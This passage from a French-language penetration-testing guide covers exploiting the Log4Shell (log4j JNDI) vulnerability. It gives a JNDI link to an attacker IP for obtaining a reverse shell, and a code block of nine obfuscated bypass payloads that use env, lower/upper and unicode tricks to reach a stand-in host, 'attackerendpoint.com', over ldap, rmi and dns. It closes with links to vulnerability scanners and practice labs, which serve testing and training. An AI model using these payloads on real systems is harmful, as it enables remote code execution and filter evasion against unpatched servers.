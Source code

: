 Maintenant, vous pouvez facilement utiliser un lien JNDI généré pour exploiter la vulnérabilité et obtenir un **reverse shell** en l'envoyant à une version vulnérable de log4j : **`${ldap://10.10.14.10:1389/generated}`**

### Bypasses
```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```
### Scanners automatiques

- [https://github.com/fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
- [https://github.com/adilsoybali/Log4j-RCE-Scanner](https://github.com/adilsoybali/Log4j-RCE-Scanner)
- [https://github.com/silentsignal/burp-log4shell](https://github.com/silentsignal/burp-log4shell)
- [https://github.com/cisagov/log4j-scanner](https://github.com/cisagov/log4j-scanner)
- [https://github.com/Qualys/log4jscanwin](https://github.com/Qualys/log4jscanwin)
- [https://github.com/hillu/local-log4j-vuln-scanner](https://github.com/hillu/local-log4j-vuln-scanner)
- [https://github.com/logpresso/CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)
- [https://github.com/palantir/log4j-sniffer](https://github.com/palantir/log4j-sniffer) - Trouver des bibliothèques vulnérables locales

### Laboratoires à tester

- [**LogForge HTB machine**](https://app.hackthebox.com/tracks/UHC-track)
- [**Try Hack Me Solar room**](https://tryhackme.com/room/solar)
- [**https://github.com/leonjza/log4jpwn**](https://github.com/leonjza/log4jpwn)
- [**https://github.com/christophetd/log4shell-vulnerable-app**](https://github.com/christophetd/log4shell-vulnerable-app)

## Exploitation post-Log4Shell

Dans ce [**CTF writeup**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/), il est bien expliqué comment il est potentiellement **possible** d'**abuser** de certaines fonctionnalités de **Log4J**.

La [**page de sécurité**](https://logging.apache.org/log4j/2.x/security.html) de Log4j contient des phrases intéressantes :

> À partir de la version 2.16.0 (pour Java 8), la **fonctionnalité de recherche de message a été complètement supprimée**. **Les recherches dans la configuration fonctionnent toujours**. De plus, Log4j désactive désormais l'accès à JNDI par défaut. Les recherches JNDI dans la configuration doivent désormais être activées explicitement.
